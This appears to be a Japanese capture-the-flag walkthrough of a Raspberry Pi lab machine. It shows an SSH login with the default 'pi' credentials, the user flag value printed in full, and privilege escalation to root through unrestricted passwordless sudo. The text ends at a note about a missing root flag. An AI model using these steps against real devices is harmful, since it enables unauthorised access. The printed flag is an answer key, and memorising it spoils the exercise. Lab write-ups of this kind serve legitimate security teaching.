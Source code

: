 ```

SSH is enabled and the default password for the 'pi' user has not been changed.
This is a security risk - please login as the 'pi' user and type 'passwd' to set a new password.

pi@raspberrypi:~ $ id
uid=1000(pi) gid=1000(pi) groups=1000(pi),4(adm),20(dialout),24(cdrom),27(sudo),29(audio),44(video),46(plugdev),60(games),100(users),101(input),108(netdev),117(i2c),998(gpio),999(spi)
pi@raspberrypi:~ $ whoami
pi
```

~/Desktopにuser.txtがあった
```
pi@raspberrypi:~ $ ls
background.jpg  Desktop  Documents  Downloads  Music  oldconffiles  Pictures  Public  python_games  Templates  Videos
pi@raspberrypi:~ $ pwd
/home/pi
pi@raspberrypi:~ $ cd ../
pi@raspberrypi:/home $ ls
pi
pi@raspberrypi:/home $ cd pi/Desktop/
pi@raspberrypi:~/Desktop $ ls
Plex  user.txt
pi@raspberrypi:~/Desktop $ cat user.txt 
ff837707441b257a20e32199d7c8838d
```

### user.txt
`ff837707441b257a20e32199d7c8838d`

## 権限昇格

権限を確認すると全部行けそう
```
pi@raspberrypi:~/Desktop $ sudo -l
Matching Defaults entries for pi on localhost:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User pi may run the following commands on localhost:
    (ALL : ALL) ALL
    (ALL) NOPASSWD: ALL
```

`sudo su`でroot権限になる
しかしUSBを紛失したと書かれているので探しに行く

```
pi@raspberrypi:~/Desktop $ sudo su
root@raspberrypi:/home/pi/Desktop# ls
Plex  user.txt
root@raspberrypi:/home/pi/Desktop# cat /root/root.txt
I lost my original root.txt! I think I may have a backup on my USB stick...
```

